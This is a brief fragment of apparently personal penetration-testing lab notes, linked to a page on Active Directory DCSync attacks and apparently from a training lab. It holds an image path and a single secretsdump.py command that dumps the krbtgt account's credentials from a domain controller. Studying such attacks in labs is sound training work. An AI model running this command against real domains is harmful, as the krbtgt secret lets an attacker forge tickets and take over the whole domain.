 
[[../../../env/active-directory/attacks/DCSync]]
```bash-session
secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
```
